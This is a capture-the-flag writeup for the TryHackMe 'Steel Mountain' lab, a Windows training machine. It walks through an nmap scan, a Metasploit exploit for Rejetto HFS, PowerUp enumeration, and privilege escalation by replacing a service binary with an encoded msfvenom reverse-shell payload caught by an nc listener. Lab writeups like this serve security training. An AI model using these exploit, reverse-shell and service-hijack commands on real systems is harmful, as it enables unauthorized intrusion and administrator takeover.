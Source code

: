 # Steel Mountain

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

<img align="right" src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/steelmountain/steelmountain01.png" width="150" height="150">

LINK = [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

### FYI
This writeup don't include any passwords/cracked hashes/flags

# Description
In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

# Steps

1 - Scan the machine to discover how many ports are open
* ```nmap -sV <ip-virtual-machine>```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/steelmountain/steelmountain02.png" width="50%">

2 - Search an exploit for that web server version [HERE](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
* ```mfsconsole```
* ```use exploit/windows/http/rejetto_hfs_exec```
* ```set RHOST <ip-virtual-machine>```
* ```set RPORT <port-virtual-machine-web-server>```
* ```exploit```
* Go to Bill's desktop and ge the flag

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/steelmountain/steelmountain03.png" width="50%">

3 - Now that we have access to the target as Bill it's time to escalate privileges
* Download the exploit script in your Desktop from [HERE](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* Upload the script to the target using meterpreter

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/steelmountain/steelmountain04.png" width="50%">

* ```load powershell```
* ```powershell_shell```
* ```. .\PowerUp.ps1```

4 - Now that we know which service can be used to escalate privileges let's create a reverse shell as an Windows executable
* ```cd /root```
* ```msfvenom -p windows/shell_reverse_tcp LHOST=<your-ip> LPORT=<port-you-are-listening> -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```
* In the target machine locate in the directory where the affected application is ```cd C:\Program Files (x86)\IObit```
* Upload the script to the target using meterpreter ```upload /root/ASCService.exe```
* Open a shell ```shell```
* Stop the service ```sc stop AdvancedSystemCareService9```
* Reeplace the exe file```COPY ASCService.exe "Advanced SystemCare"```
* Open a nc listener ```nc -lvp <port-you-are-listening>```
* Stop the service ```sc start AdvancedSystemCareService9```
* We got a new session with admin privileges

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/steelmountain/steelmountain05.png" width="50%">

4 - Get the flag!! 😎
